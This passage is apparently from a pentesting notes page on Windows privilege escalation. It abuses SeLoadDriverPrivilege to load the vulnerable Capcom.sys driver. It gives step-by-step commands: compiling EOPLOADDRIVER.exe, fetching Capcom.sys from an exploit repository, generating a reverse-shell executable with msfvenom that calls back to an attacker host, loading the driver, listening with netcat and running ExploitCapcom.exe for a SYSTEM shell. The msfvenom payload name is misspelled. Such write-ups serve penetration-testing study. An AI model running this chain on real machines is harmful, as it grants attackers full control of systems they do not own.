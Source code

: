 For EOPLOADDRIVER we need to create a new project > Console Application (for example). We delete the default one and add the .cpp as an existing one to the Source Files:

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Then we also need to add the header files. They are available from the other project:

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

We compile it as Release x64 with the name of EOPLOADDRIVER.exe

We also have to download Capcom.sys from here:

[https://github.com/FULLSHADE/Kernel-exploits/tree/master/Capcom.sys](https://github.com/FULLSHADE/Kernel-exploits/tree/master/Capcom.sys)

{% code overflow="wrap" %}
```
And we create the reverse shell (revshell.exe):
msfvenom -p windows/x64/shell_reverse_tccp lhost=$LHOST lport=443 -f exe > revshell.exe

We upload the 4 files in the same writable directory.
Now, following the Tarlogic post, we execute EOPLOADDRIVER.exe providing the absolute path of the Capcom.sys:
PS> .\EOPLOADDRIVER.exe System\CurrentControlSet\MyService C:\test\Capcom.sys

We start Netcat listener to catch a revshell:
rlwrap -rci nc -lvnp 443

And then we execute ExploitCapcom.exe to get the SYSTEM shell:
PS> .\ExploitCapcom.exe
...
[+] The SYSTEM shell was launched
```
{% endcode %}